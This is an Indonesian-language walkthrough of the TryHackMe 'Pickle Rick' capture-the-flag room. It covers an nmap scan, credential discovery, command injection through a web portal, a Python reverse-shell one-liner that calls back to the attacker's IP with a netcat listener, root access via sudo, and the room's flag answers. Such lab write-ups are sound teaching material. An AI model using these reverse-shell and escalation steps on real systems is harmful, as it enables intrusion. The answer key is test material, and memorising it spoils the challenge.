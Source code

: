 # CTF - Pickle Rick
- TryHackMe Challenge: https://tryhackme.com/room/picklerick
- IP Machine: 10.10.172.106

# Nmap Report
- Baris perintah: `nmap -sV -A <IP Machine>`
```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -A 10.10.172.106
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 19:44 EDT
Nmap scan report for 10.10.172.106
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6bbf9e8176b483c616e7fe7b3dc6ad2 (RSA)
|   256 9d8527a53623d37ba397cb9f308841ae (ECDSA)
|_  256 cc423adf1180534d8445e1357c2cac92 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/29%OT=22%CT=1%CU=36558%PV=Y%DS=2%DC=T%G=Y%TM=64C5A47
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%II=I%TS=8)SEQ(SP=1
OS:04%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O
OS:3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   193.06 ms 10.8.0.1
2   195.02 ms 10.10.172.106

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.35 seconds
```

## Gobuster
- Baris perintah: `gobuster dir -u http://<IP Machine> -w <wordlists>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%201.JPG)

## Content Discovery
- Buka halaman web `http://<IP_machine>` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%202.JPG)

- Tekan **Ctrl+U** atau klik kanan pada halaman lalu pilih **View Page Source** untuk menampilkan source code halaman. Disini ditemukan informasi bahwa usernamenya adalah **R1ckRul3s**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%203.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%204.JPG)

- Buka halaman `http://<IP_machine>/robots.txt` di tab baru. Disini ditemukan sebuah password

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%205.JPG)

```sh
username: R1ckRul3s
password: Wubbalubbadubdub
```

## Gain Access
- Lakukan login ke halaman `http://<IP_machine>/login.php` dengan username dan password yang ditemukan diatas

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%206.JPG)

- Setelah login berhasil, halaman langsung di redirect ke halaman portal.php

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%207.JPG)

- Jika kita ketik `ls` lalu tekan Execute maka diperoleh daftar file sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%208.JPG)

- Jika kita ketik `cat Sup3rS3cretPick13Ingred.txt` lalu tekan Execute maka muncul pesan bahwa perintah tersebut telah di block

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%209.JPG) 

- Gunakan Payload berikut untuk masuk ke server. Ganti **10.8.142.62** dengan IP tun0 pada komputer yang anda gunakan
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.142.62",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

- Buka terminal dan jalankan netcat dengan printah `nc -lnvp <port>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2010.JPG)

- Copy payload dan paste ke halaman portal.php `http://<IP_machine>/portal.php` lalu tekan Execute

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2011.JPG)

- Netcat berhasil terkoneksi dan masuk sebagai user **www-data**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2012.JPG)

- Disini kita bisa membaca file **Sup3rS3cretPick13Ingred.txt** dengan perintah `cat Sup3rS3cretPick13Ingred.txt` yang sebelumnya diblock

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2013.JPG)

- Di directory **/home** ditemukan home directory **rick**. Navigasi ke directory **/home/rick** dan disana ditemukan file **second ingredients**. Buka file tersebut dengan perintah `cat 'second ingredients'`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2014.JPG)

## Privilege Escalation
- Untuk menemukan final ingredient diperlukan akses user root. Jalankan 2 baris perintah ini untuk memperoleh akses user root

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo bash
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2015.JPG)

- Setelah berhasil masuk ke user root, navigasi ke directory **/root** maka disini ditemukan file **3rd.txt** yang berisi final ingredient. Buka file tersebut dengan perintah `cat 3rd.txt`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2016.JPG)

## Pertanyaan dan Jawaban:

- **Pertanyaan:** What is the first ingredient that Rick needs?
```sh
mr. meeseek hair
```

- **Pertanyaan:** What is the second ingredient in Rick’s potion?
```sh
1 jerry tear
```

- **Pertanyaan:** What is the last and final ingredient?
```sh
fleeb juice
```